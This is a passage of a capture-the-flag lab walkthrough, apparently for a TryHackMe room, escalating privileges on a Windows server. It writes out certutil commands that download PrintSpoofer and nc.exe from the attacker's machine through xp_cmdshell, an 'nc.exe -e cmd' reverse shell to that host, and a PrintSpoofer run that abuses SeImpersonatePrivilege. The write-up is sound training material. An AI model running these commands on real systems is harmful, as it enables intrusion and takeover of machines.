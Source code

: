We already have a webserver running on Kali, so use certutil here to pull the file across:

```text
PS C:\Windows\system32> certutil -urlcache -f http://10.8.165.116/PrintSpoofer32.exe c:\users\svc-kerb.dc01\PrintSpoofer.exe
```

## NetCat Reverse Shell

I couldn't get the exploit to run from within my Nishang reverse shell. So I decided to switch a netcat shell instead. Find one already available in Kali:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# locate nc.exe
/root/thm/wreath/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Close my current Nishang shell, go back to SQL and upload nc.exe:

```text
SQL> xp_cmdshell certutil -urlcache -f http://10.8.165.116/nc.exe c:\users\svc-kerb.dc01\nc.exe
output
--------------------------------------------------------------------------------
****  Online  ****                                                                 
CertUtil: -URLCache command completed successfully.                                
NULL                                                                               
```

Start a netcat listener on Kali, then connect to it from the server:

```text
SQL> xp_cmdshell c:\users\svc-kerb.dc01\nc.exe -e cmd 10.8.165.116 443
```

Now switch to our netcat session to see we are connected:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.79.18] 50134
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

Now change directory and execute the exploit:

```text
C:\Windows\system32>cd ..\..\users\svc-kerb.dc01
c:\users\svc-kerb.dc01>printspoofer.exe -i -c powershell
printspoofer.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
```
